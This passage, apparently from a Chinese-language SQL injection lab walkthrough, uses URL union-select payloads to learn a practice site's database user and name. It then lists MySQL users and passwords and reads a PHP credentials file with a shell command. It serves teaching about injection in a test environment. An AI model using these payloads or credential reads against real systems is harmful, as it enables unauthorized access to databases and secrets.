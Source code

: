 打开网页进行查询当前数据库的用户

```
?id=-1%20union%20select%201,user(),3
```

![img](https://s2.loli.net/2022/11/25/stzVK5AucI2LRSd.png)
 			可以看到当前用户为root拥有最高的权限。



获取到当前网页的数据库名`?id=-1%20union%20select%201,database(),3`

![img](https://s2.loli.net/2022/11/25/dsBDoHtPSWACGMn.png)

获取到当前网站的数据库是security

- 常见的数据库与用户的对应关系

```bash
数据库A=网站A=数据库用户A	——>表名——>列名——>数据
数据库B=网站B=数据库用户B	——>表名——>列名——>数据
数据库C=网站C=数据库用户C	——>表名——>列名——>数据
```

**备注：**这样的好处一个用户对应一个库、这样网站之间的数据互不干扰，当然这是最基础的数据库模型，现在大网站都是分布式数据库。

- 在数据库中查询有哪些用户

```bash
mysql> use mysql;
Database changed
mysql> select host,user,password from user;
+--------------+------+----------+
| host         | user | password |
+--------------+------+----------+
| localhost    | root |          |
| 2c8a2316583a | root |          |
| 127.0.0.1    | root |          |
| ::1          | root |          |
+--------------+------+----------+
4 rows in set (0.00 sec)

mysql>
```

在源码中查看使用的是哪一个用户

```bash
root@2c8a2316583a:/var/www/html# cat sql-connections/db-creds.inc
<?php

//give your mysql connection username n password
$dbuser ='root';
$dbpass ='';
$dbname ="security";
$host = 'localhost';
$dbname1 = "challenges";
?>
```
